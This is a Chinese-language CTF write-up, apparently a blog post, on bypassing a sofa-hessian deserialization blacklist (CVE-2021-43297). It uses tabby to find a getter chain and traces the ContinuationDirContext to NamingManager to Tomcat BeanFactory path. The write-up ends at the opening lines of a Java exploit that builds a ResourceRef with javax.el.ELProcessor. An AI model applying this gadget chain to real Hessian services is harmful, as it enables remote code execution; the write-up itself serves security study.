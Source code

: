 发现是hessian反序列化
![](https://img-blog.csdnimg.cn/3c4dce313aef4320a986461947a65297.png)

主要是绕过hessian_blacklist.txt这个黑名单里面的类，并且hessian为github上的项目：[https://github.com/sofastack/sofa-hessian](https://github.com/sofastack/sofa-hessian)，是存在 CVE-2021-43297 的，那么就是找getter链

学习了一下tabby的使用，[https://github.com/wh1t3p1g/tabby](https://github.com/wh1t3p1g/tabby)

查询JNDI注入语法如下
```sql
match path=(m1:Method)-[:CALL*..10]->(m2:Method {IS_SINK:true}) where m1.NAME =~ "get.*" and m1.PARAMETER_SIZE=0 and m2.VUL="JNDI" and m2.NAME="lookup"
return path
```
![](https://img-blog.csdnimg.cn/89d8c89530aa4bb58d99bf0514fcef47.png)

### ContinuationDirContext
其实marshalsec上已经有ContinuationDirContext类相关的利用了：[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/gadgets/Resin.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/gadgets/Resin.java)


会调用到`javax.naming.spi.ContinuationContext#getEnvironment()`这个getter方法
![](https://img-blog.csdnimg.cn/9cced28c948049f6857aa54910c28b17.png)

跟进 getTargetContext 方法，发现调用了`javax.naming.spi.NamingManager#getContext()`方法
![](https://img-blog.csdnimg.cn/8664965d4c404f7f9aa9ac74e795e4a3.png)

这里会调用它的 getObjectInstance 方法
![](https://img-blog.csdnimg.cn/1b689be7776c481d91ba6d31d7099b24.png)

这里要让 refInfo 为 Reference 的实例类，然后调用 getObjectFactoryFromReference 方法
![](https://img-blog.csdnimg.cn/61be014c4b194d05ad9e3fb9eac27247.png)

跟进，它会先调用`helper.loadClass(String factoryName)`尝试加载本地的工厂类，出错或找不到指定的工厂类后，再调用`helper.loadClass(String className, String codebase)`尝试加载远程的工厂类
![](https://img-blog.csdnimg.cn/76e826115fc847098aaff6bc6fda9522.png)

最后调用了newInstance方法进行实例化

helper对象实际上是`com.sun.naming.internal.VersionHelper12`的实例对象，由于在jdk高版本默认情况下trustURLCodebase为false，直接return null
![](https://img-blog.csdnimg.cn/54200b034e9f4f0d899293dda702c1c7.png)

这就是为什么不能加载远程类的原因，题目环境存在Tomcat，我们直接加载本地`org.apache.naming.factory.BeanFactory`工厂

exp如下：
```java
import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import org.apache.naming.ResourceRef;
import javax.naming.CannotProceedException;
import javax.naming.StringRefAddr;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class Hessian_fastjson_ContinuationDirContext {
    public static void main(String[] args) throws Exception {
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
```